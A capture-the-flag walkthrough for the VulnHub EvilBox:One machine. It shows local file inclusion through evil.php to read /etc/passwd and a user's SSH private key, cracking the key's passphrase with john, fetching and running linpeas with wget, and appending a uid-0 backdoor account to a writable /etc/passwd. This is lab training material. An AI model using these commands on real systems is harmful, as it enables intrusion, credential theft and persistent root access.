# EvilBox:One Walkthrough

## Preparation
1. Download EvilBox.ova file ([EvilBox.ova](https://download.vulnhub.com/evilbox/EvilBox---One.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the EvilBox virtual machine
    * Turn on the EvilBox virtual machine from the VirtualBox  
      

1. Confirm the IP address of the EvilBox virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.109**: EvilBox Server

1. Set the EvilBox IP address to the environment variance  
    * `export IP=192.168.56.109`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 22 (SSH Service) and 80 (HTTP Service) ports.  

1. Set the URL of the 80 port to the environment variance  
    * `export URL="http://$IP:80/"`  

1. Search accessible files  
    * Use Gobuster  
        
        - `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  
        - There is a "/secret" directory  

1. Search the /secret directory  
    * Use Gobuster  
      
        - `gobuster dir -u $URL/secret -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  
        - We found the "evil.php" which is suspecious  
    * Access to the evil.php from the web browser  
      
        - Unfortunately, the page does not show anything  

1. Investigate the evil.php file  
    * Use Wfuzz to find parameters  
      
        - `wfuzz -u "$URL/secret/evil.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 0`  
        - We found the evil.php parameter is "**command**"  
    * See the /etc/passwd  
        
        - "root" and "mowree" are allocated the /bin/bash shell  

1. Reveal the evil.php source code  
    * Use php://filter technique  
        - `curl $URL/secret/evil.php?command=php://filter/convert.base64-encode/resource=evil.php`  
    * Decode the encoded strings  
      
        - `echo PD9waHAKICAgICRmaWxlbmFtZSA9ICRfR0VUWydjb21tYW5kJ107CiAgICBpbmNsdWRlKCRmaWxlbmFtZSk7Cj8+Cg== | base64 -d`  
        - We found the parameter is a file name  

## Execution  
1. Find SSH login information  
    * From the Nmap result, 22 port is opened  
        - The "mowree" could login to the SSH service  
        - The .ssh direcotry might exist in the mowree's home directory  
    * `curl $URL/secret/evil.php?command=/home/mowree/.ssh/id_rsa`  
      

1. Access to the SSH service  
    * Make a id_rsa file and give it executable permission  
      
    * `ssh mowree@$IP -i id_rsa`  
        - Unfortunately, we can not log in to the SSH because we do not know the passphrase  

1. Decrypt the passphrase  
    * Modify ssh2john and output id_rsa as a passphrase_hash.txt  
        - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa > passphrase_hash.txt`  
    * Use John  
      
        - `john --wordlist=/usr/share/wordlists/rockyou.txt passphrase_hash.txt`  
        - The passphrase is "**unicorn**"  

1. Access to the SSH service again  
    * `ssh mowree@$IP -i id_rsa`  
      
        - Password: **unicorn**  
        - We can log in as a mowree user  

## Credential Access  for general user  
1. Open the user's flag  
    * There is a flag file in mowree's home directory  
      

## Privilege Escalation  
1. Copy the LinPEAS shell  
    * Open a new terminal  
    * `cp ~/linpeas.sh ./`  

1. Start a simple HTTP server with python  
    * `python3 -m http.server 8080`  

1. Down load the linpeas.sh file from the HTTP server  
    * Execute "wget" command from the EvilBoxOne server  
      
        - `wget http://192.168.56.101:8080/linpeas.sh`  

1. Execute the pinpeash.sh file  
    * Allocate an executable permission to the linpeash.sh file and execute it  
      
        - `chmod +x linpeas.sh`  
        - `./linpeas.sh > output.txt`  
        - `more output.txt`  
        - We found "**/etc/passwd is writable**"  

1. Add a backdoor account in /etc/passwd  
    * Make a backup of /etc/passwd  
        - `cp /etc/passwd ./`  
    * Make a password using openssl  
        - `openssl passwd -1 -salt usersalt`  
        - Password: pass  
    * Add an eviluser2 in the /etc/passwd as a root  
        - `echo 'eviluser2:$1$usersalt$AdRPkkbvjFipmAjyOm.NT/:0:0:root:/root:/bin/bash' >> /etc/passwd`  

1. Change the backdoor account  
    * Change to the eviluser2  
      
        - `su eviluser2`
        - Password: pass  
        - We can see the root prompt  

## Credential Access for root user  
1. Open the root flag file  
    * Open the root.txt  
      